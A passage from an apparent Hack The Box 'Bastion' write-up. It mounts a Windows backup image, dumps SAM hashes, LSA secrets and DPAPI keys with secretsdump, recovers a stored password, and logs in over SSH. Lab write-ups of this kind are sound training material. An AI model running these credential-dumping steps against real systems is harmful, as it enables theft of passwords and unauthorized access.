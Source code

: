 The first file does not work. So I try the second one:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/bastion]
└─$ sudo  guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 
124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
```

That worked, so let's check the mounted file disk. To access it, I need root permissions. I can try to dump some hashes in the System32 folder of the image:

```bash
┌──(root💀KaliVM)-[/mnt2/Windows/System32/config]
└─# secretsdump.py -sam SAM -security SECURITY -
system SYSTEM LOCAL
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:e4487d0421e6611a364a5028467e053c:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DefaultPassword 
(Unknown User):bureaulampje
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x32764bdcb45f472159af59f1dc287fd1920016a6
dpapi_userkey:0xd2e02883757da99914e3138496705b223e9d03dd
[*] Cleaning up...
```

Here are the hashes, the script also found a password of an unknown user: `bureaulampje`. I try to crack the hashes using crackstation:

[Cracking the Hashes](https://www.notion.so/7000e373f7cb4a1c8dd69d441d56e171)

This gives me a password. There is SSH installed, which is unusual for windows but I take it. 

# SSH

---

I can try to log into SSH using the password cracked above:

```bash
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

l4mpje@BASTION C:\Users\L4mpje>dir
 Volume in drive C has no label.
 Volume Serial Number is 0CB3-C487

 Directory of C:\Users\L4mpje
```
